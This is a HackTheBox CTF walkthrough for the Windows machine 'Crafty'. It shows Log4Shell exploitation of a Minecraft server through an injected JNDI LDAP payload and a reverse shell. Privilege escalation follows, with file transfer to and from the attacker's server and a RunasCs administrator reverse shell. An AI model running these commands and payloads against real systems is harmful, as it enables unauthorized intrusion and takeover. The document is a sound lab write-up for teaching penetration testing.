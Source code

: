```yaml
---
title: "CTF: Crafty (HTB, Windows, Easy)"
excerpt: "A detailed walkthrough of \"Crafty\" machine on HackTheBox."
tagline: "Take over a Minecraft server!"
header:
  teaser: /docs/assets/images/teasers/ctf/crafty.png
  og_image: /docs/assets/images/teasers/ctf/crafty.png
  overlay_image: /docs/assets/images/teasers/ctf/crafty2.png
author_profile: false
share: false
tags:
  - HackTheBox
  - Windows
  - Difficulty-Easy
  - Log4Shell
categories:
  - CTF
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Crafty" machine on HackTheBox that is based on Windows operating system and categorized as "Easy" by difficulty. Never in my entire existence had I thought I would fall so low that I'd touch Minecraft in any shape or form, however, the day has come... "Enjoy" a takeover of a Minecraft server that is vulnerable to the infamous **Log4Shell** (CVE-2021-44228)! It should be noted that at the moment of writing, the machine has not been implemented in a quality manner, and even if you follow all the instructions step by step, you may still experience connectivty issues and exploits not functioning properly (it's recommended to spare yourself from pain and simply reset the machine). However, through rigorous testing, yours truly described the smoothest exploitation scenario.

## Reconnaissance

Run **nmap** to scan all ports:

```bash
nmap -p- <IP>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/nmapscan.png" alt="">
  <figcaption>Ports 80 HTTP and 25565 Minecraft are open.</figcaption>
</figure>

As soon as Minecraft appeared in the scan results, Log4Shell came across my mind due to a video watched on YouTube a while ago, Minecraft servers being vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). It was possible to inject **JNDI** queries right into the game chat and the server would execute them, provided that it utilized **Log4j** versions 1.7 to 1.18.

Navigating to the website would feature the following page:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/craftypage.png" alt="">
  <figcaption>Donate your lunch money!</figcaption>
</figure>

The website hosted on Windows IIS cannot be exploited in any way, so the Challenger has to focus on **port 25565** where Minecraft is running. The home page also mentions the server's subdomain, **play.crafty.htb**.

## Weaponization

It is required to install the following tools to establish foothold:

* Download the following [Log4j PoC](https://github.com/kozmer/log4j-shell-poc/tree/main?tab=readme-ov-file) by Kozmer from GitHub.

* The exploit requires **jdk-8u20** and checks if its present in the directory. Downloading the exact version from Oracle website prompts for account creation. I was able to find a slightly different jdk version - [jdk-8u202](https://mirrors.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz) that works with the exploit. Once downloaded and extracted in the same directory as the POC script, rename the jdk directory to **jdk1.8.0_20** in order to bypass the script check.

* Download [PyCraft](https://github.com/ammaraskar/pyCraft): a CLI Minecraft client that allows to connect to the server and send messages to the game chat (best alternative to avoid the disgrace of install an actual Minecraft client on your computer).

Once the above steps have been completed, modify the code of **poc.py** file in the *log4j-shell-poc* directory to execute **"cmd.exe"** (since the server is hosted on Windows) in the payload:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/pocpy.png" alt="">
  <figcaption></figcaption>
</figure>

## Exploitation / Foothold

Run Kozmer's PoC:

```bash
python3 poc.py --userip YOUR_IP --webport YOUR_HTTP_PORT --lport YOUR_NETCAT_PORT
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/kozmerpocrun.png" alt="">
  <figcaption></figcaption>
</figure>

The exploit will open a HTTP server on the specified port where it will host a malicious payload referring to Netcat listener. Also it opens an LDAP server with the instructions that would redirect the server to the Attacker's HTTP server. In the output, the tool specifies a JNDI payload that will need to be injected in the game chat.

Run Netcat:

```bash
nc -lnvp <PORT>
```

Connect to the server with PyCraft:
```bash
python start.py -o -u $USER -s play.crafty.htb:25565
# Once the chat opens, inject the JDNI payload provided by the exploit:
${jndi:ldap://<YOUR IP>:1389/a}
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/pycraft.png" alt="">
  <figcaption></figcaption>
</figure>

### User flag

The Challenger should receive a reverse shell on the Netcat listener. Claim the user flag:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/user.png" alt="">
  <figcaption></figcaption>
</figure>

## Privilege escalation

Navigate to *C:\\User\\svc_minecraft\\server\\plugins*. There's a **playercounter-1.0-SNAPSHOT.jar** file in there:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/plugins.png" alt="">
  <figcaption></figcaption>
</figure>

Now it's necessary to transfer the file to the Attacker's machine to extract its contents. Upload it to your HTTP server (other file transfer methods were not working properly on this machine at the moment of writing) with Powershell. You can use [SimpleHTTPServerWithUpload](https://github.com/Tallguy297/SimpleHTTPServerWithUpload) Python tool.

```python
python3 SimpleHTTPServerWithUpload.py <PORT>
```
Then on the Target machine:
```powershell
powershell
(New-Object System.Net.WebClient).UploadFile('http://<IP>:<PORT>/', 'playercounter-1.0-SNAPSHOT.jar')
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/jarupload.png" alt="">
  <figcaption></figcaption>
</figure>

The file should be uploaded in the directory with HTTP server tool.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/jardownload.png" alt="">
  <figcaption></figcaption>
</figure>

Let's view the contents of the file with **jd-gui**. Install it on your machine with *sudo apt-get jd-gui*. In the source code of **Playercounter.class** we see a command for **rcon** (Remote Console for the Minecraft server) that contains a <ins>password</ins> string.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/rconpass.png" alt="">
  <figcaption></figcaption>
</figure>

It's time to use the discovered password. For this purpose, we will utilize [RunasCs](https://github.com/antonioCoco/RunasCs) - a utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.

Download the tool. Start a HTTP server and transfer the tool to the Target machine:

```powershell
# Attacker:
python3 -m http.server <PORT>
# Target:
certutil.exe -urlcache -split -f "http://<IP>:<PORT>/runascs.exe" runascs.exe
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/rundadownload.png" alt="">
  <figcaption>Example of successfull download.</figcaption>
</figure>

Start a Netcat listner on the Attacker machine. Back on the Target machine, run **runascs.exe** with the following parameters:

```powershell
.\runascs.exe administrator <PASSWORD> cmd.exe -r <IP>:<PORT>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/runascscmd.png" alt="">
  <figcaption></figcaption>
</figure>

This will send a reverse shell as **administator** user to the Attacker. Claim the root flag in the  *C:\\Users\\Administrator\\Desktop* folder.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/root.png" alt="">
  <figcaption>Solved, now delete Minecraft from your computer!</figcaption>
</figure>


**Thank you for your attention and happy hacking!**
{: .notice--primary}
